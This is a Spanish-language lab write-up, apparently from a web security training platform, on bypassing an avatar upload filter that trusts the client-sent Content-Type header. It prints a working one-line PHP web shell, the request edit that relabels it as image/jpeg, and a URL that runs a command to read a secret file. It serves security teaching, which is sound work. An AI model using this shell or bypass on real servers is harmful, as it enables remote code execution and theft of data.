




# 📤 Web shell upload mediante bypass de restricción por Content-Type

## 📄 Descripción del laboratorio

Este laboratorio implementa una funcionalidad de **subida de avatares** que intenta restringir los tipos de archivo permitidos. Sin embargo, la validación se basa exclusivamente en el encabezado HTTP **Content-Type**, un valor completamente controlable por el cliente.

El objetivo es:

* Bypassear la restricción de tipo de archivo.
* Subir una **web shell PHP**.
* Utilizarla para leer el archivo:

```
/home/carlos/secret
```

* Enviar el secreto para completar el laboratorio.

Credenciales de prueba:

```
wiener:peter
```


## 📚 Teoría

Un error común en funcionalidades de subida de archivos consiste en confiar únicamente en el encabezado **Content-Type** para validar el tipo de fichero.

El problema es que:

* El **Content-Type lo envía el cliente**.
* Puede modificarse fácilmente con herramientas como **Burp Suite**.
* No refleja necesariamente el **contenido real del archivo**.

Si el servidor:

* Acepta archivos basándose únicamente en el **Content-Type**.
* Ejecuta archivos **PHP según su extensión**.
* Almacena los archivos en una **ruta accesible públicamente**.

entonces basta con **manipular el Content-Type** para conseguir **ejecución remota de código (RCE)**.


## 📝 Práctica

### 🎯 Objetivo

Leer el archivo:

```
/home/carlos/secret
```


### 1️⃣ Iniciar sesión

Se accede a la aplicación con las credenciales:

```
wiener:peter
```

Dentro del panel **My Account** se localiza la funcionalidad de **subida de avatar**.


### 2️⃣ Crear la web shell

Se crea un archivo llamado `shell.php` con el siguiente contenido:

```php
<?php
  system($_GET['cmd']);
?>
```

Este script permite ejecutar comandos del sistema a través del parámetro `cmd`.


### 3️⃣ Intento de subida directa

Se intenta subir `shell.php` como avatar.

<br>

Resultado:

La aplicación rechaza el archivo con un mensaje similar a:

```
Only JPEG or PNG images are allowed
```

Esto indica que la validación probablemente se basa en el **tipo MIME**.


### 4️⃣ Interceptar la petición con Burp

Se intercepta la petición de subida del avatar utilizando **Burp Suite** y se envía al **Repeater**.

En la sección del archivo aparece un encabezado similar a:

```http
Content-Type: application/x-php
```


### 5️⃣ Modificar el Content-Type

Se cambia el encabezado del archivo a un tipo permitido, por ejemplo:

```http
Content-Type: image/jpeg
```



### 6️⃣ Reenviar la petición

Se envía la petición modificada.

Resultado:

* El servidor acepta el archivo.
* El avatar se actualiza correctamente.
* El servidor no detecta que el archivo contiene código PHP.


### 7️⃣ Leer el secreto

Una vez subido el archivo, se accede a la web shell mediante la siguiente URL:

```
/files/avatars/shell.php?cmd=cat /home/carlos/secret
```

El servidor ejecuta el comando y devuelve el contenido del archivo.

<br>

Copiamos el valor.


### 8️⃣ Resolver el laboratorio

Se copia el valor obtenido y se introduce en el formulario de resolución del laboratorio.

El laboratorio se completa correctamente.


